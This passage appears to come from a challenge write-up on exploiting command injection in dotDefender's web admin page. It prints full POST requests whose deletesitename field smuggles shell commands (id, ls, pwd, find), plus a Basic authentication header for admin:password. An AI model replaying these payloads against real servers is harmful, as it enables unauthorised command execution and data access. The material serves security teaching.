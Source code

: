 ```
Connection: keep-alive
Referer: https://172.16.159.132/dotDefender/index.cgi
Authorization: Basic YWRtaW46
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 95

sitename=dotdefeater&deletesitename=dotdefeater;id;ls -al
../;pwd;&action=deletesite&linenum=15

--------------------/Response/--------------------
```

So it looks like we can use a specially crafted POST request to execute commands on the file system.

If that is true, we can simply try to  “find” the secret file on the filesystem and display it’s contents :

By hooking a web proxy between your browser and the server (or by using a custom Request editor such as Burp), we can craft/manipulate a  request and insert the evil payload, basically trying to find the location of the n00bSecret.txt file. The fields to alter are

- Host
- Referer
- Authorization
- and of course, the command to execute (“find” command in this case)

```
POST /dotDefender/index.cgi HTTP/1.1
Host: www1.noob-filter.com
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.1.9) Gecko/20100330 Fedora/3.5.9-1.fc11 Firefox/3.5.9
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
Referer: http://www1.noob-filter.com/dotdefender/index.cgi
Authorization: Basic YWRtaW46cGFzc3dvcmQ=
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

sitename=dotdefeater&deletesitename=dotdefeater;find / -name n00bSecret.txt;
&action=deletesite&linenum=15
```

Wait until the find operation completes and review the results that are sent back by the server :

[![image](:/e6b4d68b765c4d8d8c585ba230eaf30b "image")](https://www.corelan.be/wp-content/uploads/2010/05/image7.png)
